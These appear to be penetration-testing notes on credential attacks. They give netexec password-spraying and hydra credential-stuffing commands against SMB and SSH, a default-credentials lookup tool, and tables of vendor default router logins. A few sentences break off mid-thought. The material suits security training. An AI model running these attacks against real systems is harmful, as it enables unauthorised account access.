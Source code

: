 # CheatSheet:
## spraying
```shell-session
netexec smb 10.100.38.0/24 -u <usernames.list> -p 'ChangeMe123!'
```

credential stuffing attack
```
hydra -C <user:pass>.txt ssh://IP
```

search default creds database:
```
pip3 install defaultcreds-cheat-sheet
$ creds search <product>
# ex: creds search mysql
```


## Credential stuffing
[Credential stuffing](https://owasp.org/www-community/attacks/Credential_stuffing) is another type of brute-force attack in which an attacker uses stolen credentials from one service to attempt
Since many users reuse their usernames and passwords across multiple platforms (such as email, social media, and enterprise systems), these attacks are sometimes successful.

if we have a list of `username:password` credentials obtained from a database leak, we can use `hydra` to perform a credential stuffing attack against an SSH service using the following syntax:



```shell-session
hydra -C user_pass.list ssh://10.100.38.23
```
## Default credentials

Many systems—such as routers, firewalls, and databases—come with `default credentials`
While several lists of known default credentials are available online, there are also dedicated tools that automate the process. One widely used example is the [Default Credentials Cheat Sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet), which we can install with `pip3`.

```shell-session
pip3 install defaultcreds-cheat-sheet
```
Once installed, we can use the `creds` command to search for known default credentials associated with a specific product or vendor.
```shell-session
creds search linksys

+---------------+---------------+------------+
| Product       |    username   |  password  |
+---------------+---------------+------------+
| linksys       |    <blank>    |  <blank>   |
| linksys       |    <blank>    |   admin    |
| linksys       |    <blank>    | epicrouter |
| linksys       | Administrator |   admin    |
| linksys       |     admin     |  <blank>   |
| linksys       |     admin     |   admin    |
| linksys       |    comcast    |    1234    |
| linksys       |      root     |  orion99   |
| linksys       |      user     |  tivonpw   |
| linksys (ssh) |     admin     |   admin    |
| linksys (ssh) |     admin     |  password  |
| linksys (ssh) |    linksys    |  <blank>   |
| linksys (ssh) |      root     |   admin    |
+---------------+---------------+------------+
```
In addition to publicly available lists and tools, default credentials can often be found in product documentation, which typically
While some devices and applications prompt the user to set a password during installation, others use a default—often weak—password.

# Routers
Beyond applications, default credentials are also commonly associated with routers. One such list is available [here](https://www.softwaretestinghelp.com/default-router-username-and-password-list/). While it is less 
likely that router credentials remain unchanged (since these devices are critical to network security), oversights do occur. Routers used in internal testing environments, for example, may be left with default settings and can be exploited to gain further access.

| **Router Brand** | **Default IP Address** | **Default Username** | **Default Password** |
| ---------------- | ---------------------- | -------------------- | -------------------- |
| 3Com             | http://192.168.1.1     | admin                | Admin                |
| Belkin           | http://192.168.2.1     | admin                | admin                |
| BenQ             | http://192.168.1.1     | admin                | Admin                |
| D-Link           | http://192.168.0.1     | admin                | Admin                |
| Digicom          | http://192.168.1.254   | admin                | Michelangelo         |
| Linksys          | http://192.168.1.1     | admin                | Admin                |
| Netgear          | http://192.168.0.1     | admin                | password             |
# Credential stuffing
Credential stuffing attacks exploit the unfortunate reality that many users reuse passwords across multiple online accounts.

It's a multi-stage process that begins with attackers acquiring lists of compromised usernames and passwords. These lists can stem from large-scale data breaches or be compiled through phishing scams and malware. Notably, publicly available wordlists like `rockyou` or those found in `seclists` can also serve as a starting point, offering attackers a trove of commonly used passwords.

![](Pasted%20image%2020250618201620.png)

